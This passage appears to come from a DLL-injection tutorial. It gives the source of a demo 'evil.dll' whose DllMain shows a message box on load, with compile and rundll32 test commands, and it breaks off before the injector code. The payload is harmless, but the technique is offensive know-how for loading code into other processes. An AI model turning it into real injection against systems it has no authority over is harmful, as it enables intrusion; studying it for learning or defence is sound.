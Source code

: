 - evil.cpp  

```cpp  
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```  

## Let's compile tuh dll...  

```  
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```  

## Place the dll in the root of the windows drive. The skript is expecting c:\evil.dll  

**Test the DLL...**  

```  
rundll32.exe c:\\evil.dll,DllMain
```  

**teh skript kat is summoned...**  

## Ok, on to the main C++ code, the injection scrip7...  
